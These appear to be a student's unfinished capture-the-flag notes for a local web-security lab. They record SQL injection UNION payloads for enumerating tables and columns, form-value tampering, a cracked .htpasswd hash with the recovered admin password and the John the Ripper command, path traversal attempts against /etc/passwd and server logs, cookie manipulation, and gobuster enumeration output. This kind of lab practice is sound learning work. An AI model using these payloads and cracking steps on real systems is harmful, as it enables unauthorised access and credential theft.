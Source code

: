 ### Flag 00 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

The first vulnerability we found is the possibility to cheat very easily on a survey hosted on the website.
The server assumes the values as being from 1 to 10, but you can send the request with a much higher grade.

http://localhost:13080/?page=survey
Inspect option of Ben
Change value to 11 (negative didn't work)

### Flag 01 (WIP)

Search members page queries the database directly using SQL

vulnerable to sql injections we assume

5 UNION SELECT COUNT(_), NULL FROM users --
5 UNION SELECT COUNT(_), first_name FROM users --

THIS LISTS ALL TABLE NAMES

```
6 UNION SELECT NULL, table_name FROM information_schema.tables--
```

this lists all column names

```
6 UNION SELECT NULL, column_name FROM information_schema.columns--
```

this lists all columns of the table users, we're using hex because strings are being escaped

```
6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x7573657273--
```

listing all columns gave us this :

```
ID: 5 UNION SELECT NULL, column_name FROM information_schema.columns--
First name:
Surname : FLAG
```

which is sus

but after finding the table that this columbs belong to

```

ID: 5 UNION SELECT NULL, table_name FROM information_schema.columns WHERE column_name=0x464C4147--
First name:
Surname : INNODB_SYS_TABLES

```

and trying to get FLAG from it

```

5 UNION SELECT NULL, FLAG FROM INNODB_SYS_TABLES--

```

we get

```

Table 'Member_Sql_Injection.INNODB_SYS_TABLES' doesn't exist

```

### Flag 02 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

http://localhost:13080/index.php?page=recover
Change webmaster@borntosec.com to whatever
1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Flag 03 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

http://localhost:13080/index.php?page=feedback
Name: a
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Flag 04 (WIP)

Hashcrack this http://localhost:13080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

### Flag 05 (WIP)

a weirdly loaded image http://localhost:13080/index.php?page=media&src=1

### Flag 06 (WIP)

Wtf?
http://localhost:13080/index.php?page=

### Flag 07 (WIP)

cookie I_am_admin

### Flag 08 d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

http://localhost:8080/whatever/

htpasswd file

`root:437394baff5aa33daa618be47b75cb49`

Cracking the Password Using John the Ripper

To crack the password from the `.htpasswd` file using John the Ripper, run the following command:

```bash
../john/run/john --format=Raw-MD5 htpasswd
```

gives us

```
Enabling duplicate candidate password suppressor
qwerty123@       (root)
```

then

http://localhost:8080/admin/

connect using root and qwerty123@

### FLAG 09 (WIP)

http://localhost:8080/index.php?page=../../../../etc/passwd

ALMOST

http://localhost:8080/index.php?page=../../../../../var/log/httpd/access.log

STILL NOPE

### FLAG 10 (WIP)

SEARCH IMAGE, IMAGE NUMBER 5

comes up to

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

### TO NOTE

➜ utenret gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt -b 200,975

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://localhost:8080/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: KaliLists/dirb/big.txt
[+] Negative Status codes: 200,975
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors (Status: 301) [Size: 193] [--> http://localhost/errors/]
/fonts (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js (Status: 301) [Size: 193] [--> http://localhost/js/]
/whatever (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```
